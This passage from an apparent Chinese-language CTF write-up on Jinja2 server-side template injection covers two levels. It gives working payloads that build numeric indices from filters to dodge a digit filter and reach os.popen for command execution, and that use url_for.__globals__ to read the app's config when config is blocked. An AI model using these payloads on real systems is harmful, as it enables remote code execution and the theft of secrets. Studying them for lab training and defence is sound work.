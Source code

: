 3.  **构造数字:** 使用 Jinja2 的特性（如过滤器 `|join|count`）来构造所需的数字索引。

    ```jinja
    {# 构造数字 2 #}
    {% set two = dict(aa=a) | join | count %}
    {# 构造数字 5 #}
    {% set five = dict(aaaaa=a) | join | count %}
    {# 构造数字 8 #}
    {% set eight = dict(aaaaaaaa=a) | join | count %}
    {# 拼接成字符串 "258" 并转换为整数 #}
    {% set erwuba = (two ~ five ~ eight) | int %}
    {# 使用构造的数字作为索引 #}
    {{ ().__class__.__base__.__subclasses__()[erwuba].__init__.__globals__['os'].popen('cat flag').read() }}
    ```
![0-9 1](./images/ssti13.png)

-----

## Level 10 - `config` 被覆盖 (set config = None)

如果目标应用显式地将 `config` 设置为 `None`，可能无法直接访问 `config` 变量。但是，可以通过其他 Jinja2 内置函数或对象的 `__globals__` 属性间接访问到应用实例（`current_app`）及其配置。

1.  **通过 `url_for`:**

    ```jinja
    {{ url_for.__globals__['current_app'].config }}
    ```
